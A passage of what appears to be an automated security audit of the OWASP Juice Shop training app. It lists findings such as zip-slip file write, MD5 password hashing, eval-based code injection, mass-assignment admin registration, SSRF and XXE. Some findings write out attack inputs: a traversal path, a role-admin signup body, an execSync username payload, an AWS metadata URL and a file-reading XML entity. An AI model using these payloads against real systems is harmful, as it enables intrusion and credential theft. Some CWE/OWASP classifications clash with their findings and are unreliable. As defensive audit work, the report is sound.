**Issue:** An attacker uploads a ZIP archive containing an entry with a path-traversal sequence such as `../../../../.ssh/authorized_keys`. At line 41 `const fileName = entry.path` captures this raw path. Line 42 computes `absolutePath = path.resolve('uploads/complaints/' + fileName)`. The guard at line 44 (`absolutePath.includes(path.resolve('.'))`) tests whether the resolved absolute path contains the CWD string - but line 45 passes the original unresolved `fileName` to `fs.createWriteStream('uploads/complaints/' + fileName)`. An unauthenticated attacker can write arbitrary content to any path writable by the Node process, enabling persistence, overwriting application code, or poisoning the FTP download directory.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - Line 45 writes using raw `fileName` (not the guard-checked `absolutePath`), allowing traversal sequences to escape the `uploads/complaints/` sandbox.

```typescript
// routes/fileUpload.ts:45
                const absolutePath = path.resolve('uploads/complaints/' + fileName)
                challengeUtils.solveIf(challenges.fileWriteChallenge, () => { return absolutePath === path.resolve('ftp/legal.md') })
                if (absolutePath.includes(path.resolve('.'))) {
                  entry.pipe(fs.createWriteStream('uploads/complaints/' + fileName).on('error', function (err) { next(err) }))
                } else {
                  entry.autodrain()
                }
```

**Fix:** Resolve and normalise every constructed path and reject anything that escapes the intended base directory → ❸ [M-010](#m-010) — Manual review: verify Zip-slip arbitrary file write via raw `entry.path` in ZIP extraction at `routes/fileUpload.ts:45`

**Classification:** Injection · [CWE-22](https://cwe.mitre.org/data/definitions/22.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-015"></a><a id="f-015"></a>
#### F-015 · Password Hash with Insufficient Effort

**Severity:** 🔴 Critical - elevated as an attack-chain keystone (individual baseline: High)  ·  **Component:** [C-02](#c-02) - Express REST API Backend  ·  **Location:** `lib/insecurity.ts`:43

**Issue:** `lib/insecurity.ts:43` defines `hash = (data) => crypto.createHash('md5').update(data).digest('hex')` which is used as the sole password hashing function throughout the application (login at `routes/login.ts:34`, changePassword at `routes/changePassword.ts:39`). `MD5` produces a fast, unsalted digest. A combined attack using the SQLi in `routes/search.ts:23` dumps the entire Users table exposing all `MD5` password hashes; these hashes are then cracked offline via rainbow tables (CrackStation lists 15+ billion `MD5` entries) in minutes. A dedicated Hashcat GPU rig recovers 8-character passwords in under 60 seconds. After SQLi-based Users table dump, all user passwords recovered within minutes via pre-computed `MD5` rainbow tables, enabling full account takeover for every user.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - `lib/insecurity.ts:43` uses `crypto.createHash('md5')` with no salt; the same hash is stored in the Users table and compared on login.

**Fix:** Replace the broken hash with a salted password-hashing function (bcrypt/Argon2id) → ❸ [M-013](#m-013) — Manual review: verify MD5 Password Hashing Without Salt at `lib/insecurity.ts:43`

**Classification:** Cryptographic Failures · [CWE-916](https://cwe.mitre.org/data/definitions/916.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-016"></a><a id="f-016"></a>
#### F-016 · Code Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-04](#c-04) - B2B API / Order Sandbox  ·  **Location:** `routes/b2bOrder.ts`:23

**Issue:** The `b2bOrder()` handler passes the HTTP request body field `orderLinesData` directly to `safeEval()` from the `notevil` package inside a `Node.js` vm context (`routes/b2bOrder.ts` line 23). `notevil` is known to be bypassable via prototype pollution: an attacker crafts an `orderLinesData` expression that writes to `Object.prototype.__proto__` or `constructor.prototype`, poisoning properties that `notevil`'s runtime subsequently accesses. Once prototype properties are poisoned, the restriction checks `notevil` performs on evaluated code no longer function, allowing the attacker to call `process.mainModule.require('child_process').execSync(...)` or equivalent, achieving arbitrary server-side code execution. The vm context sandboxing itself does not provide isolation in `Node.js` - `vm.createContext` shares the same V8 isolate and prototype chain as the host process. Full server-side remote code execution under the `Node.js` process identity, enabling data exfiltration, persistence, lateral movement, and complete application takeover.

**Root cause:** User-supplied data reaches a server-side code-execution sink (`eval`, sandbox primitives, deserialisation, prototype-pollution gadgets) and breaks out into arbitrary native execution.

**Evidence:** ✓ verified - User-controlled `body.orderLinesData` is passed without sanitization to `safeEval()` within a Node\.js vm context that shares V8 prototype objects with the host process.

```typescript
// routes/b2bOrder.ts:23
      try {
        const sandbox = { safeEval, orderLinesData }
        vm.createContext(sandbox)
        vm.runInContext('safeEval(orderLinesData)', sandbox, { timeout: 2000 })
        res.json({ cid: body.cid, orderNo: uniqueOrderNumber(), paymentDue: dateTwoWeeksFromNow() })
      } catch (err) {
        if (utils.getErrorMessage(err).match(/Script execution timed out.*/) != null) {
```

**Fix:** Replace runtime code generation (eval/Function/template render) with a data-only execution path → ❸ [M-014](#m-014) — Manual review: verify Sandbox Escape via Unsafe Expression Evaluation at `routes/b2bOrder.ts:23`

**Classification:** Code Execution via Unsafe Deserialization or Eval · [CWE-94](https://cwe.mitre.org/data/definitions/94.html) · [OWASP A08:2021](https://owasp.org/Top10/A08_2021/)

<a id="t-017"></a><a id="f-017"></a>
#### F-017 · Mass Assignment Allows Self-Promotion Admin

**Severity:** 🔴 Critical - reaches a privileged operation on an unauthenticated endpoint  ·  **Component:** [C-02](#c-02) - Express REST API Backend  ·  **Location:** `server.ts`:483

**Issue:** The finale-rest auto-generated endpoint for `POST /api/Users` accepts any JSON body field that maps to a `UserModel` column. The `UserModel` has a `role` column. A user registration request `{ "email": "attacker@evil.com", "password": "pass", "passwordRepeat": "pass", "role": "admin" }` creates an account with `role: admin`. The `verify.registerAdminChallenge()` middleware only calls `challengeUtils.solveIf()` - it does not strip or reject the `role` field. Any anonymous actor can register an admin account, gaining full administrative access to user data, order history, challenge flags, and all `/rest/admin/*` endpoints.

**Root cause:** Authorisation checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - `server.ts:500` finale-rest `excludeAttributes` for the User resource only excludes `['password', 'totpSecret']` (line 483) - `role` is not excluded, permitting mass assignment of admin role during registration.

```typescript
// server.ts:483
  finale.initialize({ app, sequelize })

  const autoModels = [
    { name: 'User', exclude: ['password', 'totpSecret'], model: UserModel },
    { name: 'Product', exclude: [], model: ProductModel },
    { name: 'Feedback', exclude: [], model: FeedbackModel },
    { name: 'BasketItem', exclude: [], model: BasketItemModel },
```

**Fix:** ❸ [M-015](#m-015) — Manual review: verify Mass Assignment Allows Self-Promotion to Admin Role at server.ts:483

**Classification:** Broken Access Control · [CWE-915](https://cwe.mitre.org/data/definitions/915.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-018"></a><a id="f-018"></a>
#### F-018 · Missing Authentication

**Severity:** 🔴 Critical - reaches a privileged operation on an unauthenticated endpoint  ·  **Component:** [C-02](#c-02) - Express REST API Backend  ·  **Location:** `server.ts`:309

**Issue:** The route pipeline registered is: `uploadToMemory.single('file'), ensureFileIsPassed, metrics, checkUploadSize, checkFileType, handleZipFileUpload, handleXmlUpload, handleYamlUpload`. No authentication or session middleware appears in this chain. Any unauthenticated HTTP client (no JWT, no session cookie) can upload ZIP archives, XML files, or YAML files. Combined with the zip-slip vulnerability (file-upload-service-002), an unauthenticated attacker can write arbitrary files on the server without any credential requirement. Unauthenticated attackers can exploit every file upload vulnerability (zip-slip, XXE, YAML bomb) without requiring any credentials, lowering the bar for exploitation to zero.

**Evidence:** ✓ verified - `server.ts:309` registers `app.post('/file-upload', ...)` with no `isAuthenticated`, `passportJWT`, or equivalent middleware preceding the upload handlers.

```typescript
// server.ts:309

  app.use(bodyParser.urlencoded({ extended: true }))
  /* File Upload */
  app.post('/file-upload', uploadToMemory.single('file'), ensureFileIsPassed, metrics.observeFileUploadMetricsMiddleware(), checkUploadSize, checkFileType, handleZipFileUpload, handleXmlUpload, handle
  app.post('/profile/image/file', uploadToMemory.single('file'), ensureFileIsPassed, metrics.observeFileUploadMetricsMiddleware(), profileImageFileUpload())
  app.post('/profile/image/url', uploadToMemory.single('file'), profileImageUrlUpload())
  app.post('/rest/memories', uploadToDisk.single('image'), ensureFileIsPassed, security.appendUserId(), metrics.observeFileUploadMetricsMiddleware(), addMemory())
```

**Fix:** ❸ [M-016](#m-016) — Manual review: verify Missing authentication on POST `/file-upload` allows unauthenticated file upload… at server.ts:309

**Classification:** Broken Access Control · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-013"></a><a id="f-013"></a>
#### F-013 · Cross-Site Scripting

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Angular Frontend SPA  ·  **Location:** `frontend/src/app/search-result/search-result.component.ts`:170

**Issue:** The `filterTable()` method at line 170 passes `route.snapshot.queryParams.q` directly to `sanitizer.bypassSecurityTrustHtml(queryParam)`. Angular's `DomSanitizer.bypassSecurityTrustHtml()` explicitly disables Angular's built-in HTML sanitization for the value. The result is bound to `<span id="searchValue" [innerHTML]="searchValue">` in the search-result template. An attacker crafts a URL such as `https://juiceshop.example.com/#/search?q=` and sends it to a victim. Reflected XSS allows full session hijacking via `localStorage.getItem('token')` exfiltration; because there is no CSP nonce enforcement, any injected script executes without restriction.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitisation; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - `queryParam` at line 170 bypasses Angular sanitization and is bound to `[innerHTML]` in the template - the URL query string flows unsanitized to the DOM.

```typescript
// frontend/src/app/search-result/search-result.component.ts:170
        this.io.socket().emit('verifyLocalXssChallenge', queryParam)
      }) // vuln-code-snippet hide-end
      this.dataSource.filter = queryParam.toLowerCase()
      this.searchValue = this.sanitizer.bypassSecurityTrustHtml(queryParam) // vuln-code-snippet vuln-line localXssChallenge xssBonusChallenge
      this.gridDataSource.subscribe((result: any) => {
        if (result.length === 0) {
          this.emptyState = true
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❸ [M-011](#m-011) — Manual review: verify Reflected DOM XSS via Search Query Parameter at `frontend/src/app/search-result/search-result.component.ts:170`

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

### 🟠 High (32)

<a id="t-004"></a><a id="f-004"></a>
#### F-004 · Use of Unmaintained Third-Party Components

**Severity:** 🟠 High  ·  **Component:** [C-07](#c-07) - GitHub Actions CI/CD Pipeline  ·  **Location:** `Dockerfile`:1

**Issue:** Dockerfile base image must be digest-pinned - Dockerfile:1 Tag-only base images (FROM node:24) can be silently substituted by a malicious publisher. Digest-pinning (@sha256:…) ensures the exact image bytes are used on every build.

**Evidence:** ✓ verified

```dockerfile
// Dockerfile:1
FROM node:24 AS installer
COPY . /juice-shop
WORKDIR /juice-shop
```

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❷ [M-043](#m-043) — Dockerfile base image must be digest-pinned

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-019"></a><a id="f-019"></a>
#### F-019 · Insufficient Verification of Data Authenticity

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express REST API Backend  ·  **Location:** `lib/insecurity.ts`:58

**Issue:** Decode-only flows let an attacker construct a token with any claims (admin, sub=victim, scope=*) - no key material required.

**Evidence:** ✓ verified

```typescript
// lib/insecurity.ts:58
export const authorize = (user = {}) => jwt.sign(user, privateKey, { expiresIn: '6h', algorithm: 'RS256' })
export const verify = (token: string) => token ? (jws.verify as ((token: string, secret: string) => boolean))(token, publicKey) : false
export const decode = (token: string) => { return jws.decode(token)?.payload }

export const sanitizeHtml = (html: string) => sanitizeHtmlLib(html)
```

**Fix:** ❷ [M-053](#m-053) — Replace `.decode(token)` with `.verify(token, key, { algorithms: [...] })` and gate authorization on the verified payload only.

**Classification:** Supply-Chain Integrity · [CWE-345](https://cwe.mitre.org/data/definitions/345.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-020"></a><a id="f-020"></a>
#### F-020 · Improper Authentication

**Severity:** 🟠 High _(raw Critical)_  ·  **Component:** [C-01](#c-01) - Angular Frontend SPA  ·  **Location:** `frontend/src/app/login/login.component.ts`:134

**Issue:** The Google OAuth redirect in `login.component.ts:134` uses `response_type=token` (implicit flow), which causes the `access_token` to land in the URL fragment (#access_token=...). This token is written to browser history on every authentication, and Referer headers on subsequent navigations can leak it to third-party scripts or analytics. No `state` parameter is present in the redirect URL, so a CSRF attack can force a user's browser to complete the OAuth flow with an attacker-controlled authorization code. Full account takeover for any user whose Google OAuth token is intercepted - the token grants access to the Google userinfo endpoint and is then used to authenticate to the backend.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - `location.replace()` constructs the OAuth redirect with `response_type=token` and no `state` field; the router matcher at line 262 extracts `#access_token=` from the URL, proving implicit-flow delivery.

```typescript
// frontend/src/app/login/login.component.ts:134

  googleLogin () {
    this.windowRefService.nativeWindow.location.replace(`${oauthProviderUrl}?client_id=${this.clientId}&response_type=token&scope=email&redirect_uri=${this.redirectUri}`)
  }
}
```

**Fix:** Strengthen authentication: enforce a vetted JWT verifier with explicit algorithm, MFA where appropriate → ❸ [M-017](#m-017) — Manual review: verify OAuth Implicit Flow Token in URL Fragment at `frontend/src/app/login/login.component.ts:134`

**Classification:** OAuth / OIDC Misconfiguration · [CWE-287](https://cwe.mitre.org/data/definitions/287.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-021"></a><a id="f-021"></a>
#### F-021 · Code Injection

**Severity:** 🟠 High _(raw Critical)_  ·  **Component:** [C-02](#c-02) - Express REST API Backend  ·  **Location:** `routes/userProfile.ts`:62

**Issue:** An authenticated user updates their username to `#{process.mainModule.require('child_process').execSync('id').toString()}` via PUT `/api/Users/:id` or the profile update endpoint. At `routes/userProfile.ts:55-62`, any username matching the regex `#{(.*)}` is evaluated with `eval(code)` where `code` is the substring between `#{` and `}`. The result is embedded in the rendered Pug template response. Remote code execution as the `Node.js` process user, enabling filesystem access, credential exfiltration, reverse shells, and lateral movement.

**Root cause:** User-supplied data reaches a server-side code-execution sink (`eval`, sandbox primitives, deserialisation, prototype-pollution gadgets) and breaks out into arbitrary native execution.

**Evidence:** ✓ verified - `routes/userProfile.ts:62` calls `eval(code)` where `code` is the attacker-controlled username content matched by the `#{(.*)}` regex.

```typescript
// routes/userProfile.ts:62
          throw new Error('Username is null')
        }
        username = eval(code) // eslint-disable-line no-eval
      } catch (err) {
        username = '\\' + username
```

**Fix:** Replace runtime code generation (eval/Function/template render) with a data-only execution path → ❸ [M-018](#m-018) — Manual review: verify Server-Side Template Injection via eval in User Profile at `routes/userProfile.ts:62`

**Classification:** Injection · [CWE-94](https://cwe.mitre.org/data/definitions/94.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-022"></a><a id="f-022"></a>
#### F-022 · Missing Authorization

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express REST API Backend  ·  **Location:** `server.ts`:369

**Issue:** At `server.ts:369` the `security.isAuthorized()` middleware call for `PUT /api/Products/:id` is commented out: `// app.put('/api/Products/:id', security.isAuthorized())`. Any unauthenticated HTTP client can send `PUT /api/Products/1` with a modified JSON body (new name, description, price, or image) and Sequelize will persist the change. The finale-rest auto-generated handler at line 500 processes the update without any authentication check. Unauthenticated product data tampering: price manipulation to \$0.00, stored XSS via product description injection, and reputational damage via product name defacement.

**Root cause:** Authorisation checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ◌ ambiguous - `server.ts:369` has `security.isAuthorized()` commented out for the Products PUT route, leaving the finale-rest auto-handler fully unauthenticated.

```typescript
// server.ts:369
  /* Products: Only GET is allowed in order to view products */ // vuln-code-snippet neutral-line changeProductChallenge
  app.post('/api/Products', security.isAuthorized()) // vuln-code-snippet neutral-line changeProductChallenge
  // app.put('/api/Products/:id', security.isAuthorized()) // vuln-code-snippet vuln-line changeProductChallenge
  app.delete('/api/Products/:id', security.denyAll())
  /* Challenges: GET list of challenges allowed. Everything else forbidden entirely */
```

**Fix:** ❸ [M-019](#m-019) — Manual review: verify Missing Authorization on Products PUT Endpoint at server.ts:369

**Classification:** Broken Access Control · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-023"></a><a id="f-023"></a>
#### F-023 · Server-Side Request Forgery (SSRF)

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express REST API Backend  ·  **Location:** `routes/profileImageUrlUpload.ts`:24

**Issue:** An authenticated user posts `{ "imageUrl": "http://169.254.169.254/latest/meta-data/iam/security-credentials/" }` (or any internal URL) to the profile image upload endpoint. At `routes/profileImageUrlUpload.ts:24`, `fetch(url)` is called with the attacker-supplied URL without any allowlist, scheme restriction, or private-IP blocklist. The response body is written to a file under `frontend/dist/frontend/assets/public/images/uploads/` with the user's ID as the filename - making the fetched content available via a public static-file route. Exfiltration of AWS instance metadata credentials, internal service responses, or access to internal APIs not exposed to the internet.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `routes/profileImageUrlUpload.ts:24` calls `await fetch(url)` where `url` is `req.body.imageUrl` with no URL validation, scheme restriction, or private-range blocklist.

```typescript
// routes/profileImageUrlUpload.ts:24
      if (loggedInUser) {
        try {
          const response = await fetch(url)
          if (!response.ok || !response.body) {
            throw new Error('url returned a non-OK status code or an empty body')
```

**Fix:** Validate the URL scheme + host against an explicit allow-list before issuing outbound requests → ❸ [M-020](#m-020) — Manual review: verify Server-Side Request Forgery via Profile Image URL at `routes/profileImageUrlUpload.ts:24`

**Classification:** Injection · [CWE-918](https://cwe.mitre.org/data/definitions/918.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-024"></a><a id="f-024"></a>
#### F-024 · Use of Unmaintained Third-Party Components

**Severity:** 🟠 High _(raw Critical)_  ·  **Component:** [C-07](#c-07) - GitHub Actions CI/CD Pipeline  ·  **Location:** `.npmrc`:1

**Issue:** `.npmrc` sets `package-lock=false`, which prevents generation of `package-lock.json`. The `test`, `api-test`, `coding-challenge-rsn`, `e2e`, and `smoke-test` jobs in `ci.yml` all run `npm install` without a lockfile. Without a pinned lockfile, npm resolves transitive dependencies fresh from the registry on each run. A malicious postinstall script runs in a GitHub Actions runner with access to all workflow environment variables, including `CYPRESS_RECORD_KEY`, `E2E_SOLUTIONS_WEBHOOK`, `GITHUB_TOKEN`, and any other secrets mounted for that job.

**Evidence:** ✓ verified - `.npmrc` line 1 sets `package-lock=false`; `ci.yml` jobs at lines 85, 65, 125, 211 run `npm install` without `--ignore-scripts`, and `Dockerfile` line 5 uses `--unsafe-perm`, each constituting an independent postinstall execution surface.

```
// .npmrc:1
package-lock=false
```

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❸ [M-021](#m-021) — Manual review: verify Unlocked npm Dependencies Enable Postinstall Code Execution at .npmrc:1

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-025"></a><a id="f-025"></a>
#### F-025 · XML External Entity (XXE)

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - File Upload Service  ·  **Location:** `routes/fileUpload.ts`:83

**Issue:** An attacker uploads a crafted XML file with a DTD that declares an external entity referencing a local file (e.g. `<!ENTITY xxe SYSTEM "file:///etc/passwd">`). libxmljs2 is invoked with `noent: true` at line 83, which causes entity substitution before the document is read. The resolved content is embedded into `xmlString` and then reflected back verbatim in the HTTP error response at line 87 (`'B2B customer complaints via file upload have been deprecated for security reasons: ' + utils.trunc(xmlString, 400)`). Unauthenticated read of any file accessible to the `Node.js` process, including `/etc/passwd`, application secrets, and private keys.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterisation or schema validation.

**Evidence:** ✓ verified - `libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })` at line 83 enables external entity resolution; the parsed document is embedded in the error response at line 87.

```typescript
// routes/fileUpload.ts:83
        const sandbox = { libxml, data }
        vm.createContext(sandbox)
        const xmlDoc = vm.runInContext('libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })', sandbox, { timeout: 2000 })
        const xmlString = xmlDoc.toString(false)
        challengeUtils.solveIf(challenges.xxeFileDisclosureChallenge, () => { return (utils.matchesEtcPasswdFile(xmlString) || utils.matchesSystemIniFile(xmlString)) })
```

**Fix:** Disable external entity resolution on every XML parser and reject DOCTYPE declarations → ❸ [M-022](#m-022) — Manual review: verify XXE via external entity resolution in XML upload parser at `routes/fileUpload.ts:83`

**Classification:** Injection · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-027"></a><a id="f-027"></a>
#### F-027 · Insufficient Logging

**Severity:** 🟠 High  ·  **Component:** [C-04](#c-04) - B2B API / Order Sandbox  ·  **Location:** `routes/b2bOrder.ts`:17

**Issue:** The `b2bOrder()` handler processes authenticated B2B order requests but emits no structured security event log. On success, it returns `{ cid, orderNo, paymentDue }` (line 24). The only infrastructure logging is the generic HTTP access log from Morgan (`server.ts` line 338), which records the request line and status code but not the JWT subject, the `cid` (customer ID), `orderNo`, or the `orderLinesData` payload. Fraudulent or disputed B2B orders cannot be attributed to a specific authenticated identity, eliminating forensic accountability and regulatory auditability.

**Evidence:** ✓ verified - `b2bOrder.ts` contains no logger.info/warn call, no security event emit, and no database write; the only record of a successful order is the HTTP access log line from Morgan.

```typescript
// routes/b2bOrder.ts:17

export function b2bOrder () {
  return ({ body }: Request, res: Response, next: NextFunction) => {
    if (utils.isChallengeEnabled(challenges.rceChallenge) || utils.isChallengeEnabled(challenges.rceOccupyChallenge)) {
      const orderLinesData = body.orderLinesData || ''
```

**Fix:** ❸ [M-024](#m-024) — Manual review: verify Missing Audit Log for B2B Order Submissions at `routes/b2bOrder.ts:17`

**Classification:** Cross-Site Scripting (XSS) · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-028"></a><a id="f-028"></a>
#### F-028 · Insufficient Logging

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express REST API Backend  ·  **Location:** `server.ts`:338

**Issue:** The HTTP access log uses `morgan('combined', ...)` which records IP address, HTTP method, URL, response code, and User-Agent. It does not capture the authenticated user's ID or email from the JWT. When an admin account is compromised via SQLi and used to perform destructive actions (delete users, change product prices, export all data), the log only shows the IP from which the requests were made - an IP that may itself be spoofed via the X-Forwarded-For header (see rate-limit bypass, backend-api-009). Post-incident forensics cannot attribute destructive or privileged API actions to specific user accounts, enabling an insider to deny responsibility.

**Evidence:** ✓ verified - `server.ts:338` configures morgan with the `combined` format, which has no authenticated-user token; no supplementary audit-log middleware records user ID alongside sensitive write operations.

```typescript
// server.ts:338
    max_logs: '2d'
  })
  app.use(morgan('combined', { stream: accessLogStream }))

  // vuln-code-snippet start resetPasswordMortyChallenge
```

**Fix:** ❸ [M-025](#m-025) — Manual review: verify Missing User-Identity Audit Trail in Access Logs at server.ts:338

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2021](https://owasp.org/Top10/A09_2021/)

<a id="t-029"></a><a id="f-029"></a>
#### F-029 · Insufficient Logging

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - SQLite Data Layer  ·  **Location:** `models/user.ts`:37

**Issue:** The Sequelize model layer contains no `afterCreate`, `afterUpdate`, or `afterDestroy` hooks that write security-relevant events to an audit log. An operations insider (ACT-D-05) who directly modifies the Cards, Users, or Orders tables - or an attacker who exploits the SQL injection paths to insert/update rows - leaves no forensic trace. User role changes (`role = 'admin'`), card data access, and account deletions are undetectable after the fact. Security incidents (insider data theft, privilege escalation via SQL injection) cannot be reconstructed from logs; SOC2 CC7.2 and PCI-DSS Requirement 10 logging obligations are unmet.

**Evidence:** ✓ verified - Grep across `models/` returns zero calls to any logger or audit sink from model lifecycle hooks - no event record is written for create/update/destroy on User, Card, or Basket models.

```typescript
// models/user.ts:37
}

const UserModelInit = (sequelize: Sequelize) => { // vuln-code-snippet start weakPasswordChallenge
  User.init(
    { // vuln-code-snippet hide-start
```

**Fix:** ❸ [M-026](#m-026) — Manual review: verify Missing Security Audit Log for Data Mutations at `models/user.ts:37`

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2021](https://owasp.org/Top10/A09_2021/)

<a id="t-030"></a><a id="f-030"></a>
#### F-030 · Insufficient Logging

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - File Upload Service  ·  **Location:** `routes/fileUpload.ts`:27

**Issue:** Neither `fileUpload.ts` nor `fileServer.ts` contain any calls to a logger or audit sink. File uploads - including rejected uploads, malicious payloads, and zip-slip attempts - are not recorded with actor identity, filename, IP address, or outcome. Similarly, file downloads from `/ftp/:filename` are not logged. Successful exploitation of XXE or zip-slip leaves no audit trail; incident response cannot reconstruct attacker actions or confirm breach scope.

**Evidence:** ✓ verified - Zero logger calls appear in `routes/fileUpload.ts` and `routes/fileServer.ts` - confirmed by grep returning no hits for `logger|audit|log.`.

```typescript
// routes/fileUpload.ts:27
}

function handleZipFileUpload ({ file }: Request, res: Response, next: NextFunction) {
  if (utils.endsWith(file?.originalname.toLowerCase(), '.zip')) {
    if (((file?.buffer) != null) && utils.isChallengeEnabled(challenges.fileWriteChallenge)) {
```

**Fix:** ❸ [M-027](#m-027) — Manual review: verify No audit logging of file upload events or file access on /ftp/ at `routes/fileUpload.ts:27`

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2021](https://owasp.org/Top10/A09_2021/)

<a id="t-031"></a><a id="f-031"></a>
#### F-031 · Directory Listing Exposure

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express REST API Backend  ·  **Location:** `server.ts`:281

**Issue:** `server.ts:281-283` mounts `serve-index` and a static file server at `/support/logs` with no `security.isAuthorized()` guard. The application writes Morgan `combined` access logs to `logs/access.log.YYYY-MM-DD` with IP addresses, HTTP methods, URLs (including path parameters containing user IDs and order IDs), and User-Agents. Any unauthenticated visitor to `/support/logs` can browse the file listing and download the current and prior days' log files. Exposure of all users' HTTP activity logs including IP addresses, visited URLs, and query-string parameters - constitutes PII disclosure and aids targeted reconnaissance.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `server.ts:281`-283 serves directory listing and log files at `/support/logs` via `serveIndex` and `serveLogFiles()` with no authentication middleware before the handlers.

```typescript
// server.ts:281

  /* /logs directory browsing */ // vuln-code-snippet neutral-line accessLogDisclosureChallenge
  app.use('/support/logs', serveIndexMiddleware, serveIndex('logs', { icons: true, view: 'details' })) // vuln-code-snippet vuln-line accessLogDisclosureChallenge
  app.use('/support/logs', verify.accessControlChallenges()) // vuln-code-snippet hide-line
  app.use('/support/logs/:file', serveLogFiles()) // vuln-code-snippet vuln-line accessLogDisclosureChallenge
```

**Fix:** ❸ [M-028](#m-028) — Manual review: verify Unauthenticated Access Log Directory Listing at server.ts:281

**Classification:** Error Information Disclosure · [CWE-548](https://cwe.mitre.org/data/definitions/548.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-032"></a><a id="f-032"></a>
#### F-032 · Dockerfile no --unsafe-perm install flag

**Severity:** 🟠 High  ·  **Component:** [C-07](#c-07) - GitHub Actions CI/CD Pipeline  ·  **Location:** `Dockerfile`:5

**Issue:** Dockerfile no --unsafe-perm install flag - Dockerfile:5 `npm install --unsafe-perm` runs postinstall scripts as root, widening supply-chain compromise scope.

**Evidence:** ✓ verified

```dockerfile
// Dockerfile:5
WORKDIR /juice-shop
RUN npm i -g typescript ts-node
RUN npm install --omit=dev --unsafe-perm
RUN npm dedupe --omit=dev
RUN rm -rf frontend/node_modules
```

**Fix:** ❷ [M-047](#m-047) — Dockerfile no --unsafe-perm install flag

**Classification:** Error Information Disclosure · [CWE-250](https://cwe.mitre.org/data/definitions/250.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-033"></a><a id="f-033"></a>
#### F-033 · Incorrect Permission Assignment

**Severity:** 🟠 High  ·  **Component:** [C-07](#c-07) - GitHub Actions CI/CD Pipeline  ·  **Location:** `.github/workflows/ci.yml`:1

**Issue:** GitHub Actions workflow-level permissions block - .github/workflows/ci.yml:1 Without an explicit permissions block, the workflow inherits the repository default (commonly write-all) for GITHUB_TOKEN - any compromised step can push code, create releases, or approve PRs.

**Root cause:** Authorisation checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - A sensitive resource is created with permissive default permissions.

```yaml
// .github/workflows/ci.yml:1
name: "CI/CD Pipeline"
on:
  push:
```

**Fix:** ❷ [M-048](#m-048) — GitHub Actions workflow-level permissions block

